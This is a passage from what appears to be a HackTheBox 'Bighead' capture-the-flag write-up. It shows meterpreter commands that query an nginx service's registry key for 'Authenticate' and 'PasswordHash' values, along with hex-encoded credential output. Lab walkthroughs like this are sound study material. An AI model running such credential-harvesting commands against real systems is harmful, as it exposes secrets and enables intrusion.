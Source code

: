 ```

  Keys (2):

        Parameters
        Enum

  Values (12):

        Type
        Start
        ErrorControl
        ImagePath
        DisplayName
        ObjectName
        Description
        DelayedAutostart
        FailureActionsOnNonCrashFailures
        FailureActions
        Authenticate
        PasswordHash
```
#### `Authenticate` and `PasswordHash`. Let's look at the value :
#### `Authenticate` :
`reg queryval -k 'HKLM\System\CurrentControlSet\Services\nginx' -v Authenticate`
![](/images/hackthebox/bighead/105.png)
```
meterpreter > reg queryval -k 'HKLM\System\CurrentControlSet\Services\nginx' -v Authenticate
Key: HKLM\System\CurrentControlSet\Services\nginx
Name: Authenticate
Type: REG_BINARY
Data: 4800370033004200700055005900320055007100390055002d005900750067007900740035004600590055006200590030002d0055003800370074003800370000000000
```
#### `PasswordHash` :
`reg queryval -k 'HKLM\System\CurrentControlSet\Services\nginx' -v PasswordHash`
![](/images/hackthebox/bighead/106.png)
```
meterpreter > reg queryval -k 'HKLM\System\CurrentControlSet\Services\nginx' -v PasswordHash
Key: HKLM\System\CurrentControlSet\Services\nginx
Name: PasswordHash
Type: REG_SZ
Data: 336d72676e6333205361797a205472794861726465722e2e2e203b440a
```
#### `Authenticate` : `4800370033004200700055005900320055007100390055002d005900750067007900740035004600590055006200590030002d0055003800370074003800370000000000`
#### `PasswordHash` : `336d72676e6333205361797a205472794861726465722e2e2e203b440a`